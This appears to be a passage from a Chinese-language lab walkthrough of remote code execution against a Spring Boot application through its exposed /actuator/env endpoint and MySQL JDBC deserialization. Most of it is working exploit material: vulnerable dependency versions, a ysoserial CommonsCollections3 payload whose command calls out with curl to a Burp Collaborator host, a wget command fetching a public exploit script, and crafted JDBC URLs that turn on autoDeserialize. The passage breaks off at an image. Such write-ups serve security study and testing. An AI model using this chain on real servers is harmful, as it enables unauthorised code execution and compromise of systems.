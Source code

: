 查看下 pom.xml 的 mysql-connector-java 的依赖为 8.0.12,cc 依赖为 3.2.1:

```plain
<dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>8.0.12</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
            <scope>runtime</scope>
        </dependency>
```

先访问：[http://localhost:9097/actuator/env](http://localhost:9097/actuator/env)

记录好原先的`spring.datasource.url`:

```plain
[application.properties]:6:43"},"spring.datasource.url":{"value":"jdbc:mysql://127.0.0.1:3306/test","origin":"class path resource
```

利用 ysoserial 生成反序列化 payload:

```plain
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections3 'curl rb617n72nqnqaj8ijbiw36v7nytohd.burpcollaborator.net' > payload.ser
```

下载 rce.py 脚本：

```plain
wget --no-check-certificate https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py
```

编辑下脚本的端口 3306 为 3307，避开本机的 3306 冲突。

**(1) 修改变量**

value 的值，mysql8.x 填入：

```plain
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

如果是 5.x 则是：

```plain
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

> 两者区别：

[![](assets/1703152930-7c8fb647b6bd571c24308e30dab01f40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112035-7a2cde9a-d176-1.png)
